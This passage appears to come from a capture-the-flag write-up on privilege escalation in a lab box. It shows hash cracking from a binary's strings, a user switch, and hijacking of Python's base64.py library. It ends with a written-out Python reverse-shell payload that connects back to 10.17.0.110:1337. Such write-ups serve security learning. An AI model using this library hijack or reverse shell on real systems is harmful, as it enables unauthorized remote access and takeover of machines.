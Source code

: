 since we don't have permission to write to the encryption script , but the script is importing the base64 library of python using command import base64 , we can hijack that![](Aspose.Words.d15f56d7-e7ed-4564-b56a-88b22e1d1ff6.037.png)

- we can write a base64.py file there , but directory is not writeable by us.
  - we can hijack the original file , if we have necessary privilege, lets check out

![](Aspose.Words.d15f56d7-e7ed-4564-b56a-88b22e1d1ff6.038.png)

but , we are in valleyDev Groups !! DEAD\_END :(

**lets look for another vector for Privesc**

we got one unusual binary in /home directory valleyAuthenticator , after trying certain username and password we found and also some default credential , we get wrong username or password.![](Aspose.Words.d15f56d7-e7ed-4564-b56a-88b22e1d1ff6.039.png)

In this case , lets try to reverse engineer the binary on our attacking machine !! first we need to download it , we can download it using SCP

scp valleyDev@10.10.128.45:/home/valleyAuthenticator .![](Aspose.Words.d15f56d7-e7ed-4564-b56a-88b22e1d1ff6.040.png)

after we have download , first lets analyze it with string , we can get something here !!

![](Aspose.Words.d15f56d7-e7ed-4564-b56a-88b22e1d1ff6.041.jpeg)

and as you can see , we got some wired looking maybe MD5 hash (length=32=MD5) lets try to crack it online , we can use cassation !!

![](Aspose.Words.d15f56d7-e7ed-4564-b56a-88b22e1d1ff6.042.jpeg)

and as , you can see , we got the some credential !!

![](Aspose.Words.d15f56d7-e7ed-4564-b56a-88b22e1d1ff6.043.png)

since we got the credential for valley , lets login to that shell !!

![](Aspose.Words.d15f56d7-e7ed-4564-b56a-88b22e1d1ff6.044.png)

and now we are in valley user , which basically belongs to valleyAdmin group !

![](Aspose.Words.d15f56d7-e7ed-4564-b56a-88b22e1d1ff6.045.png)

now, since we are part of valleyAdmin group we can change the base64.py file , for python library hijacking![](Aspose.Words.d15f56d7-e7ed-4564-b56a-88b22e1d1ff6.046.png)

![](Aspose.Words.d15f56d7-e7ed-4564-b56a-88b22e1d1ff6.047.jpeg)

lets open the file /usr/lib/python3.8/base64.py and add this payload of reverse-shell to file![](Aspose.Words.d15f56d7-e7ed-4564-b56a-88b22e1d1ff6.048.png)

import ![](Aspose.Words.d15f56d7-e7ed-4564-b56a-88b22e1d1ff6.049.png)socket,os,pty;s=socket.socket(socket.AF\_INET,socket.SOCK\_STREAM);s.connect(("1

0\.17.0.110",1337));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.filen o(),![](Aspose.Words.d15f56d7-e7ed-4564-b56a-88b22e1d1ff6.050.png)2);pty.spawn("/bin/sh")
